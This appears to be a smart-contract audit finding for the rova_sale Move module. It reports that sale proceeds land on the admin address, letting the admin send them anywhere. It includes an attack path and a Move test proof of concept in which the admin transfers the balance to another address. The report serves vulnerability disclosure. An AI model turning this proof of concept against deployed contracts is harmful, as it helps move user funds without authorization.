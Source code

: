 Handsome Eggshell Terrier

Medium

# Admin of `rova_sale` module can transfer coins to an address that is not the withdrawal address

### Summary

It should only be possible to send the coins to the withdrawal address. However, since the coins will be stored on the admin address, the admin can transfer them without taking care of the logic of the `rova_sale` module which specifies that the coins should only be transfered to the withdrawal address.

### Root Cause

In [rova_sale:174](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-movement-contracts/sources/rova_sale.move#L174), coins are deposited to `@rova_sale_addr` which is equal to the admin address.

### Internal Pre-conditions

None.

### External Pre-conditions

None.

### Attack Path

1. Users call `rova_sale::fund()` to fund tokens.
2. Admin can send the MOVE tokens to any address even though module logic restricts destination to withdrawal address.

### Impact

Only the withdrawal role can set the withdrawal address or change which address is the withdrawal role. This decision does not lie within the permisson scope of the admin. However, the admin can send the tokens wherever he wants. Therefore, the admin has more permissions than he should have.

### PoC

```move
#[test(admin = @rova_sale_addr, framework = @aptos_framework, user = @0x456)]
    public entry fun test_withdraw_to_other_address(admin: &signer, framework: &signer, user: &signer) {
        // Setup fund
        setup_sale_config(admin, framework);
        let launch_participation_id = b"cm6zl5lha00003b712h28v7cv";
        let token_amount = 100;
        let payment_amount = 1000;
        let (_signer_addr, signature_bytes, public_key_bytes) = generate_signature(admin, user, launch_participation_id, token_amount, payment_amount);
        rova_sale::fund(user, signature_bytes, public_key_bytes, launch_participation_id, token_amount, payment_amount);

        let rova_sale_balance_before_withdraw = coin::balance<AptosCoin>(@rova_sale_addr);
        debug::print(&rova_sale_balance_before_withdraw);

        // @audit-issue let's withdraw the aptos tokens to another address
        coin::transfer<AptosCoin>(admin,signer::address_of(user),rova_sale_balance_before_withdraw);

        // Verify rova_sale has no tokens
        let rova_sale_balance = coin::balance<AptosCoin>(@rova_sale_addr);
        debug::print(&rova_sale_balance);
        assert!(rova_sale_balance == 0, 1);
    }
```

### Mitigation

Store the coins in a way that is not accessible by the admin.